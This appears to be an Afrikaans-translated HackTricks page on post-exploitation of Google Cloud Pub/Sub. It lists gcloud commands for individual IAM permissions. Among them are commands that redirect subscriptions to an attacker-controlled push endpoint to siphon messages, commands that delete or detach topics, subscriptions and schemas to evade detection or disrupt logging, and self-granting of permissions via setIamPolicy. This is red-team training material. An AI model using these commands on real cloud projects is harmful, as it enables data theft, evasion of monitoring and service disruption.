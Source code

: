 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Vir meer inligting oor Pub/Sub kyk na die volgende bladsy:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publiseer 'n boodskap in 'n onderwerp, nuttig om **onverwagte data** te **stuur** en onverwagte funksies te aktiveer of kwesbaarhede te benut:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nuttig om 'n subskripsie te verhoed om boodskappe te ontvang, dalk om opsporing te vermy.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nuttig om 'n intekening te verhoed om boodskappe te ontvang, dalk om opsporing te vermy.\
Dit is moontlik om 'n onderwerp te verwyder selfs met inskrywings wat daaraan geheg is.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Gebruik hierdie toestemming om 'n paar instellings van die onderwerp op te dateer om dit te ontwrig, soos `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Gee jouself toestemming om enige van die vorige aanvalle uit te voer.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Kry al die boodskappe in 'n webbediener:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Skep 'n intekening en gebruik dit om **boodskappe te trek**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Verwyder 'n subskripsie** kan nuttig wees om 'n logverwerkingsstelsel of iets soortgelyks te ontwrig:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Gebruik hierdie toestemming om 'n paar instellings op te dateer sodat boodskappe in 'n plek gestoor word wat jy kan toegang (URL, Big Query tabel, Bucket) of net om dit te ontwrig. 

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Gee jouself die toestemmings wat nodig is om enige van die voorheen kommentaar gemaak aanvalle uit te voer.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Aanval 'n skema op 'n onderwerp sodat die boodskappe dit nie vervul nie en daarom die onderwerp ontwrig word.\
As daar nie enige skemas is nie, moet jy dalk een skep.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Dit mag lyk asof jy 'n skema verwyder, maar jy sal in staat wees om boodskappe te stuur wat nie aan die skema voldoen nie. Tog, aangesien die skema verwyder sal word, sal geen boodskap werklik in die onderwerp inkom nie. So dit is **NUTTIG**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Gee jouself die toestemmings wat nodig is om enige van die voorheen kommentaar gemaak aanvalle uit te voer.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dit sal 'n snapshot van al die onACKed boodskappe skep en dit terug na die inskrywing plaas. Nie baie nuttig vir 'n aanvaller nie, maar hier is dit:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
